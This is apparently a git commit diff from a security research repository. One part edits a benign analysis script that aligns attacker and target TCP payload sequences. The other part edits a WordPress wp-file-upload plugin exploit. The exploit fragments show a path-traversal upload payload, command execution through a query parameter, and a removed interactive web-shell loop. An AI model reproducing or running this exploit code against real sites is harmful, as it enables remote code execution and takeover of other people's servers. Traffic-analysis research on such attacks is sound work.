

Add missing figures, delete unused scripts

Changed region(s): [[0.341, 0.0, 0.713, 0.0625], [0.341, 0.5, 0.713, 0.5312]]

diff --git a/analysis.py b/analysis.py
@@ -4,6 +4,7 @@ import matplotlib.pyplot as plt
 from dtaidistance import dtw
 from dtaidistance import dtw_visualisation as dtwvis
 from dtaidistance import alignment
+from dtaidistance import subsequence
 from matplotlib.patches import ConnectionPatch
 from scapy.all import rdpcap
 from scapy.layers.inet import TCP, IP
@@ -11,7 +12,7 @@ from scapy.layers.inet import TCP, IP
 
 def extract_sequence(pcap_file):
     """
-    Extract sequence of TCP payload lengths and inter-arrival times for all TCP traffic.
+    Extract sequence of TCP payload lengths for all TCP traffic.
     """
     packets = rdpcap(pcap_file)
     lengths = []
@@ -38,7 +39,6 @@ def needleman_wunsch(seq1, seq2):
     algn, s1a, s2a, = alignment.best_alignment(paths, seq1, seq2, gap=0)
     return values, s1a, s2a, algn
 
-
 def smith_waterman(attacker_sequence, victim_sequence):
     from enum import IntEnum
     class Trace(IntEnum):
@@ -60,7 +60,7 @@ def smith_waterman(attacker_sequence, victim_sequence):
     max_score = -1
     max_index = (-1, -1)
 
-    # Fill the matrix
+    # Fill the matrix with scores
     for i in range(1, row):
         for j in range(1, col):
             val1 = attacker_sequence[i - 1]
@@ -86,7 +86,7 @@ def smith_waterman(attacker_sequence, victim_sequence):
                 max_score = matrix[i, j]
                 max_index = (i, j)
 
-    # Traceback
+    # Traceback to find the best alignment sequences
     align1, align2 = [], []
     i, j = max_index
     while tracing_matrix[i, j] != Trace.STOP:
@@ -107,7 +107,7 @@ def smith_waterman(attacker_sequence, victim_sequence):
     return max_score, align1[::-1], align2[::-1]
 
 
-def plot_alignment(seq1, seq2, label1='Seq1', label2='Seq2', ylabel='Value', max_lines=200, filename='alignment_plot.png'):
+def plot_alignment(seq1, seq2, path=None, label1='Seq1', label2='Seq2', ylabel='Value', max_lines=200, filename='alignment_plot.png'):
 
     fig, (ax1, ax2) = plt.subplots(2, 1, figsize=(10, 8), sharex=False)
     ax1.plot(seq1, linewidth=2)
@@ -120,7 +120,7 @@ def plot_alignment(seq1, seq2, label1='Seq1', label2='Seq2', ylabel='Value', max
     ax2.set_xlabel('Series Index')
     ax2.set_title(f'{label2} (packet index)')
     ax2.grid(True, axis='x', linestyle='--', alpha=0.5)
-    
+
     plt.tight_layout()
     plt.savefig(f'figures/{filename}', dpi=300)
 
@@ -150,8 +150,8 @@ def main():
     print(f"NW best score: {nw:.2f}")
     print(f"DTW distance: {distance:.2f}")
     print(f"DTW alignment path length: {len(path)} pairs aligned")
-    plot_alignment(nw_seq1, nw_seq2, label1='Attacker Payloads (NW)', label2='Target Payloads (NW)', ylabel='Payload Length', filename="nw_alignment_plot_streched.png")
-    plot_dtw(seq1, seq2, nw_path, label1='Attacker Payloads (NW)', label2='Target Payloads (NW)', filename="nw_alignment_plot.png")
+    plot_alignment(nw_seq1, nw_seq2, label1='Attacker Payloads (NW aligned)', label2='Target Payloads (NW aligned)', ylabel='Payload Length', filename="nw_alignment_plot_streched.png")
+    plot_dtw(seq1, seq2, nw_path, label1='Attacker Payloads (NW path)', label2='Target Payloads (NW path)', filename="nw_alignment_plot.png")
     plot_dtw(seq1, seq2, path, label1='Attacker Payloads (DTW)', label2='Target Payloads (DTW)', filename="dtw_original.png")
 
 
@@ -170,7 +170,8 @@ def main():
     print(f"DTW distance (sub): {sub_distance:.2f}")
     print(f"DTW alignment path length: {len(dtw_path_sub)} pairs aligned")
     plot_alignment(sw_seq1, sw_seq2, label1='Attacker Subseq (SW)', label2='Target Subseq (SW)', ylabel='Payload Length', filename="sw_subseq_alignment_plot.png")
-    plot_dtw(sw_seq1, sw_seq2, nw_path, label1='Attacker Subseq (SW)', label2='Target Subseq (SW)', filename="sw_subseq_alignment_plot.png")
+    # plot_dtw(sw_seq1, sw_seq2, nw_path, label1='Attacker Subseq (SW)', label2='Target Subseq (SW)', filename="sw_nw_subseq_alignment_plot.png")
     plot_dtw(sw_seq1, sw_seq2, dtw_path_sub, label1='Attacker Subseq (DTW)', label2='Target Subseq (DTW)', filename="sw_subseq_dtw_plot.png")
+    
 if __name__ == '__main__':
     main()

diff --git a/Ownage_exploit.py b/Ownage_exploit.py
@@ -53,7 +53,7 @@ if resp.status_code == 400:
 page = requests.get(url)
 cookie = page.cookies
 print("[+] Plugin url: " + url)
-filename = "arvo12.txt" ### you can also use jpg, png, etc...
+filename = "rce.txt" ### you can also use jpg, png, etc...
 payload = "../plugins/wp-file-upload/lib/" + filename
 print("[+] Using payload: " + payload)
 payload = payload.encode().hex()
@@ -148,13 +148,3 @@ resp = requests.get(url + "?guess_me_if_u_can=" + cmd)
 resp = resp.text.split("<canary-tag>")[1]
 resp = resp.split("</canary-tag>")[0]
 print(resp)
-while True:
-    cmd = raw_input("$ ")
-    if cmd == "exit":
-        print("bye bye!")
-        exit()
-    resp = requests.get(url + "?guess_me_if_u_can=" + cmd)
-    resp = resp.text.split("<canary-tag>")[1]
-    resp = resp.split("</canary-tag>")[0]
-    print(resp)
-
